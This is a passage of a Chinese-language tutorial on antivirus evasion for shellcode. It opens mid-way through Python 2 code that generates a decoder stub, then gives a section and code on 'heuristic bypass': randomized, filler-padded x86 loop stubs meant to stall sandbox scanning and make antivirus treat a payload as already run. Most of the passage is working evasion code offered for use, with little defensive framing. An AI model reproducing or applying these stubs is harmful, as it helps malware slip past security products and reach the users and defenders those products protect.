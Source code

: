 ```
    decoder += "\x3d" + decode_end # cmp eax, decode_end
    back_jump_value = binascii.unhexlify(format((1 << 16) - (len(decoder)-len(mov_instruct)+2), 'x')[2:]) # TODO: keep the total length < 128 for this short jump
    decoder += "\x7e" + back_jump_value # jle, start_of_decode 
    decoder += "\x90\x90" # NOPS

    return decoder

```

0x06 Heuristic 绕过
=====

Heuristic 绕过也只不过是一系列指令循环执行诱导AV以为可执行文件已经运行。NOPS, INC/DEC, ADD/SUB, PUSH/POP 指令都是可行的。就像编码过程一样，首先生成一个伪随机数决定起始指令的顺序，然后与递增和比较指令相配对（当然这一过程也是在某个范围中随机产生）创建有限的迭代循环。

循环的次数在脚本运行前定义，但是要记住循环次数越多，时间也就越长。

```
def generate_heuristic(loop_limit):
 
    fill_limit = 3 # the maximum number of fill instructions to generate in between the heuristic instructions
    heuristic = ""
    heuristic += "\x33\xC0"                                                         # XOR EAX,EAX
    heuristic += add_fill_instructions(fill_limit)                                  # fill
    heuristic += "\x40"                                                             # INC EAX
    heuristic += add_fill_instructions(fill_limit)                                  # fill
    heuristic += "\x3D" + struct.pack("L", loop_limit)                              # CMP EAX,loop_limit
    short_jump = binascii.unhexlify(format((1 << 16) - (len(heuristic)), 'x')[2:])  # Jump immediately after XOR EAX,EAX
    heuristic += "\x75" + short_jump                                                # JNZ SHORT 
    heuristic += add_fill_instructions(fill_limit)                                  # fill
    heuristic += "\x90\x90\x90"                                                     # NOP
    return heuristic
 
'''
    This is a very basic attempt to circumvent remedial client-side sandbox heuristic scanning
    by stalling program execution for a short period of time (adjustable from options)
'''
def build_heuristic_bypass(heuristic_iterations):
 
    # we only need to clear these registers once
    heuristic_start = "\x90\x90\x90\x90\x90\x90" # XOR ESI,ESI
    heuristic_start += "\x31\xf6"                # XOR ESI,ESI
    heuristic_start += "\x31\xff"                # XOR EDI,EDI
    heuristic_start += add_fill_instructions(5)

    # compose the various heuristic bypass code segments  
    heuristic = ""  
    for x in range(0, heuristic_iterations):
        loop_limit = randint(286331153, 429496729)
        heuristic += generate_heuristic(loop_limit) #+ heuristic_xor_instruction
    print "[*] Generated Heuristic bypass of %i iterations" % heuristic_iterations
    heuristic = heuristic_start + heuristic 
    return heuristic

```

